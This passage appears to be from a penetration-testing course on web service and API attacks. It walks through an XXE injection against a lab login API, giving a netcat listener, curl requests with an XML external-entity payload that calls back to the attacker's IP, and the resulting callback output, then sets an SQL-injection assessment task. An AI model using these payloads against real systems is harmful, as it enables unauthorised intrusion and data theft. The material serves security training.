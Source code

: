 We defined a DTD called _pwn_, and inside of that, we have an `ENTITY`.
We may also define custom entities (i.e., XML variables) in XML DTDs to allow refactoring of variables and reduce repetitive data. This can be done using the ENTITY keyword, followed by the `ENTITY` name and its value.

We have called our external entity _somename_, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as `file://` to call internal files.

Let us set up a Netcat listener as follows.

```shell
nc -nlvp 4444
listening on [any] 4444 ...

```

Now let us make an API call containing the payload we crafted above.

```shell
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>[email protected]</email><password>P@ssw0rd123</password></root>'
<p>Sorry, we cannot find a account with <b></b> email.</p>

```

We notice no connection being made to our listener. This is because we have defined our external entity, but we haven't tried to use it. We can do that as follows.

```shell
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'

```

After the call to the API, you will notice a connection being made to the listener.

```shell
nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 54984
GET / HTTP/1.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close

```

The API is vulnerable to XXE Injection.


## Web Service & API Attacks - Skills Assessment

* * *

Our client tasks us with assessing a SOAP web service whose WSDL file resides at `http://<TARGET IP>:3002/wsdl?wsdl`.

Assess the target, identify an SQL Injection vulnerability through SOAP messages and answer the question below.



